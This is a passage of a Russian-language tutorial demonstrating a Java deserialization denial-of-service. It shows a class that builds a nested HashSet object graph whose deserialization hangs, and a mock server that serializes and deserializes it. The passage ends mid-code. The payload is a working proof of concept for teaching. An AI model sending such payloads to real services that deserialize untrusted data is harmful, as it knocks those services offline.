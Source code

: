 Листинг исходников: https://github.com/AppLoidx/serialization-dos-example

Создадим класс Thing, который генерирует объекты DOSThing и простой Object:
```java
public class Thing implements Serializable {
    public static Set getDOSThing(){
        Set root = new HashSet();
        Set s1 = root;
        Set s2 = new HashSet();
        for (int i = 0; i < 100; i++) {
            Set t1 = new HashSet();
            Set t2 = new HashSet();
            t1.add("foo"); // make it not equal to t2
            s1.add(t1);
            s1.add(t2);
            s2.add(t1);
            s2.add(t2);
            s1 = t1;
            s2 = t2;
        }
        return root;
    }
    public static Object getSimpleObject(){
        class Mayushii implements Serializable{
            @Override
            public String toString() {
                return "Tu-tu-ruu";
            }
        }
        return new Mayushii();
    }
}
```
С методом `getSimpleObject`все понятно, он возвращает обычный сериализуемый объект с переопределенным методом toString().

`getDOSThing` — тоже более менее понятен. Граф этого объекта состоит из 201 экземпляра HashSet, каждый из которых содержит 3 или меньше ссылок на объекты.

Создадим класс Server, который будет имитировать сервер:
```java
public class Server {
    public static void main(String[] args) {
        System.out.println("Start test");
        try {
    
            Object mySimpleObject = deserialize(serialize( Thing.getSimpleObject() ));
            System.out.println("Yeah, we did it! " + mySimpleObject);
            
            Object myObject = deserialize(serialize( Thing.getDOSThing() ));
            System.out.println("Yeah, we did it! " + myObject);
            
                    
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    private static Object deserialize(byte[] bytes) throws Exception {
        return new ObjectInputStream(new ByteArrayInputStream(bytes)).readObject();
    }
    private static byte[] serialize(Object o) throws IOException {
        ByteArrayOutputStream ba = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(ba);
        oos.writeObject(o);
        oos.close();
```